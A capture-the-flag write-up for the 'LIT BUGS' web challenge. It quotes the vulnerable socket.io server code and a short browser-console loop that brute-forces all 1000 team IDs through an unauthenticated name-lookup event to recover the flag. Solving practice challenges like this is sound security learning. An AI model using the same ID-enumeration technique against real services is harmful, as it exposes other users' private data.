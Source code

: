 # web/LIT BUGS (92 solves / 129 points)
## Description
Last year�s LIT platform may or may not have had some security vulnerabilities. We have created a simplified version of last year�s platform called LIT BUGS (Lexington Informatics Tournament�s Big Unsafe Grading System). The flag is the team name of the only registered user. Visit LIT BUGS [here](http://websites.litctf.live:8000/)
Downloads:
[LIT Bugs.zip](https://drive.google.com/uc?export=download&id=1KH4xaRabJVIFFfmNKxep5ZLFH24muqHy)

## Solution:
When I clicked the link the description I was presented with a website that looks a lot like the current ctf website. This website has only a home page, a register page, a login page, and a contest page. 
After analyzing the source code given, I found that the website uses websockets for the register and login functions. In addition to this, there is also an endpoint that returns a teams name when given their ID.

Relevant code: 
```
	io.on('connection',(socket) => {
		socket.on('login',(tn,pwd) => {
			if(accounts[tn] == undefined || accounts[tn]["password"] != md5(pwd)) {
				socket.emit("loginRes",false,-3);
				return;
			}
			socket.emit("loginRes",true,accounts[tn]["rand_id"]);
			return;
		});

		socket.on('reqName',(rand_id) => {
			name = id2Name[parseInt(rand_id)];
			socket.emit("reqNameRes",name);
		});

		socket.on('register',(tn,pwd) => {
			if(accounts[tn] != undefined) {
				socket.emit("regRes",false,-1);
				return;
			}
			if(Object.keys(accounts).length >= 500) {
				socket.emit("regRes",false,-2);
				return;
			}
			var rand_id = Math.floor(Math.random() * 1000);
			while(id2Name[rand_id] != undefined) {
				rand_id = Math.floor(Math.random() * 1000);
			}
			accounts[tn] = {
				"password": md5(pwd),
				"rand_id": rand_id
			};
			id2Name[rand_id] = tn;
			socket.emit("regRes",true,rand_id);
		});
	});
```

As you can see from this code, ID's are generated by taking a random number from 1 to 1000. With only 1000 possible ID's, this is well within bruteforcing range. The endpoint that allows name lookup based on ID's should be vulnerable to a bruteforce attack, as the flag is the name of a team. I made a short JS script to run in my browser's JS console which bruteforced all 1000 ID's:
socket.on("reqNameRes",(name)=>{
	console.log(name)
});
for(var i = 0;i<1000;i++){
	socket.emit("reqName",i)
}
This worked, and after looking through the results, I found the following flag:

## Flag
flag{if_y0u_d1d_not_brut3force_ids_plea5e_c0ntact_codetiger}